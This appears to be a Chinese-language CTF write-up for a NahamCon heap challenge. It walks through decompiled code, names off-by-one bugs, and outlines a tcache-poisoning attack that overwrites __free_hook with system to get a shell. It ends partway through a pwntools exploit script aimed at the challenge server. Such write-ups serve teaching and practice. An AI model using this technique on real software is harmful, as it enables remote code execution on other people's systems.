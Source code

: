 首先是申请了一个`0x10`大小的`user`结构体用来存放堆块指针。然后根据用户指定的大小，申请了相应大小的堆块。将`size`和堆块指针写入到了结构体中。这里很明显的存在一个`off-by-one`漏洞。

`show`函数则是根据用户给定的`index`输出了堆块的内容，`delete`删除了堆块，并将`user_list`相应位置清空。接下来看一下`edit`函数。

```
unsigned int edit()
`{`
  unsigned int result; // eax
  int index; // [esp+0h] [ebp-18h]
  ssize_t length; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v4; // [esp+Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  puts("\tUser index to edit:");
  read(0, buf, 4u);
  index = atoi(buf);
  if ( index &gt;= 0 &amp;&amp; index &lt;= 9 &amp;&amp; user_list[index] )
  `{`
    puts("\tUser email:");
    length = read(0, *(void **)(user_list[index] + 4), *(_DWORD *)user_list[index]);
    if ( length &lt;= 0 )
      **(_BYTE **)(user_list[index] + 4) = 0;
    else
      *(_BYTE *)(*(_DWORD *)(user_list[index] + 4) + length) = 0;
    printf("\tUser %d updated\n", index);
  `}`
  else
  `{`
    puts("\tInvalid user index!");
  `}`
  result = __readgsdword(0x14u) ^ v4;
  if ( result )
    sub_FF0();
  return result;
`}`
```

这里就是根据用户在`add`中设置的堆块大小对堆块的内容进行重新编辑。这里也存在一个`off-by-one`的漏洞。

那么接下来整体的思路就是利用`off-by-one`构造堆重叠。进而泄漏出`libc`地址。再次利用堆重叠（这里主要是防止高版本的`libc2.27`的影响）构造出堆溢出，覆写`tcache-&gt;fd`指针指向`free_hook`，进而覆写`free_hook`为`system`，`getshell`。

```
# encoding=utf-8
from pwn import *

file_path = "./chall"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')

else:
    p = remote('challenge.nahamcon.com', 30770)
    libc = ELF('./libc-2.27.so')


def add(index, size, content=b"1"):
    p.sendlineafter("---------\n", "add")
    p.sendlineafter("index to add:\n", str(index))
    p.sendlineafter("email length:\n", str(size))
```